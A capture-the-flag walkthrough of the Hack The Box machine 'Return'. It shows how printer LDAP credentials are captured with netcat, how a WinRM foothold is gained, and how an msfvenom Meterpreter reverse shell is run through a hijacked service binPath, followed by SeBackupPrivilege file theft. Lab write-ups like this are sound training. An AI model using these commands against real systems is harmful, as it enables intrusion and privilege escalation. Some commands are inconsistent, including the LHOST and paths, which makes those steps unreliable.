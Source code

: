 # Return HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Return-green?logo=hackthebox)](https://app.hackthebox.com/machines/401)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

**Return** is an easy-level Windows machine on Hack The Box focused on exploiting network printer misconfigurations and abusing Windows privilege escalation techniques. The box demonstrates enumeration of Windows shares and services, credential capture via a network printer, WinRM initial foothold, privilege escalation using the Server Operators group, and finally leveraging SeBackupPrivilege to access the Administrator's desktop.

---

## Table of Contents

- [Scan and Enumeration](#scan-and-enumeration)
- [SMB and Service Discovery](#smb-and-service-discovery)
- [Abusing Printer Panel and Capturing Credentials](#abusing-printer-panel-and-capturing-credentials)
- [Initial Foothold via WinRM](#initial-foothold-via-winrm)
- [Privilege Escalation](#privilege-escalation)
- [Post Exploitation and Flag Capture](#post-exploitation-and-flag-capture)
- [Stepwise PoC](stepwise-poc)
- [Tools Used](#tools-used)
- [Technical Notes](#technical-notes)

---

## Scan and Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.241 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.129.95.241
```
- Scans all TCP ports, extracts open ports, and performs banner and script scanning on the detected ports.

---

## SMB and Service Discovery

```
enum4linux-ng -A 10.129.95.241
smbclient -L //10.129.95.241/
```
- Enumerates users, shares, domains, and more.
- Lists all available SMB shares.

---

## Abusing Printer Panel and Capturing Credentials

`nc -lvnp 389`
- Listens for LDAP connections, capturing cleartext credentials when configured in the Printer Admin Panel.

*Captured Credential:*
```
Username: svc-printer
Password: 1edFg43012!!
```

---

## Initial Foothold via WinRM

`evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'`
- Authenticates and spawns a WinRM shell as the captured domain user.

`net user svc-printer`
- Checks group memberships and privileges of the obtained account.

`services`
- Lists running services.

---

## Privilege Escalation

*Generate and transfer Meterpreter payload:*
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.129.95.241 LPORT=1447 -f exe > shell.exe
upload shell.exe
```

*Start Metasploit Handler:*
```

*Start Metasploit Handler:*

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.48
set LPORT 1447
run
```

*Abuse Service to Execute Payload:*
```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\shell.exe"
sc.exe stop VMTools
sc.exe start VMTools
```

- Modifies the VMTools service to run the shell and triggers Meterpreter.
- If session is unstable, re-run or try different services.

---

## Post Exploitation and Flag Capture

*Check Available Privileges:*
`whoami /priv`

*Abuse SeBackupPrivilege to Access Administrator Files:*
```
mkdir C:\temp\creds
robocopy /b C:\Users\Administrator\Desktop C:\temp\creds
cat C:\creds\root.txt
```
- Leverages backup privileges to copy inaccessible files and finally retrieves the root flag.

---

## 11. Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1513" height="847" alt="19" src="https://github.com/user-attachments/assets/fdda1804-15a1-4050-8963-0c08deba4fcd" />
<img width="1054" height="320" alt="18" src="https://github.com/user-attachments/assets/a7373ea4-355d-4286-bf15-dc2909d198aa" />
<img width="685" height="810" alt="17" src="https://github.com/user-attachments/assets/833cb303-babc-4e7e-9aba-094a4b027f60" />
<img width="765" height="841" alt="16" src="https://github.com/user-attachments/assets/03b4451b-0878-4acf-83ec-94be7e246f70" />
<img width="1197" height="656" alt="15" src="https://github.com/user-attachments/assets/de284b53-1ab5-4fb6-8703-ada562045f81" />
<img width="764" height="123" alt="14" src="https://github.com/user-attachments/assets/87ff5172-6424-41db-b22f-eded61b77567" />
<img width="1189" height="606" alt="13" src="https://github.com/user-attachments/assets/cbf57109-09d2-4b23-9d0e-6904e6e01643" />
<img width="817" height="203" alt="12" src="https://github.com/user-attachments/assets/b452b7a1-d761-496a-aff4-e3bef5496b95" />
<img width="863" height="249" alt="11" src="https://github.com/user-attachments/assets/2f12183c-4339-4ae9-a3fa-a20f4304d712" />
<img width="895" height="793" alt="10" src="https://github.com/user-attachments/assets/633effd2-6b5a-44e8-a7f2-26bdd6b2e1b2" />
<img width="1743" height="466" alt="9" src="https://github.com/user-attachments/assets/10bb85f3-4005-4d9e-aadb-044381af6ebe" />
<img width="961" height="282" alt="8" src="https://github.com/user-attachments/assets/5ce92af7-e915-449f-b075-26cdf7a5429e" />
<img width="862" height="268" alt="7" src="https://github.com/user-attachments/assets/2a0147e9-215d-40e5-8529-0aca42092e2c" />
<img width="1455" height="74" alt="6" src="https://github.com/user-attachments/assets/2386d468-ecf6-439f-a3ac-c63f0e18c956" />
<img width="828" height="291" alt="5" src="https://github.com/user-attachments/assets/ed540559-df53-4b82-b52e-75d02ae32e15" />
<img width="894" height="549" alt="4" src="https://github.com/user-attachments/assets/acbdbd9f-bd1a-44a4-a57e-882873ea1fba" />
<img width="828" height="299" alt="3" src="https://github.com/user-attachments/assets/06ff13d4-6c46-41e4-9c60-fc1ed00bae5d" />
<img width="1245" height="669" alt="2" src="https://github.com/user-attachments/assets/53d8366a-ef25-4cde-90fb-642dacd94d1f" />
<img width="908" height="77" alt="1" src="https://github.com/user-attachments/assets/bf489527-8021-4ede-ab26-01028dadcf8f" />

</details>

---

## Tools Used

- **nmap** – Port scanning and service detection
- **enum4linux-ng** – Windows and Samba enumeration
- **smbclient** – SMB share listing
- **nc (netcat)** – Listener for credentials
- **evil-winrm** – WinRM shell for Windows boxes
- **msfvenom/msfconsole** – Metasploit payload creation and handler
- **robocopy** – Copying as backup operator
- **sc.exe** – Windows Service Controller utility

---

## Technical Notes

- **Server Operators Group**: Members can control and reconfigure system services, often leading to privilege escalation if misconfigured.
- **SeBackupPrivilege**: Allows reading almost any file on the system by using tools like robocopy with the `/b` (backup) flag.
- **Service Abuse**: Overwriting the binPath of an enabled service lets you trigger arbitrary code as SYSTEM.

---
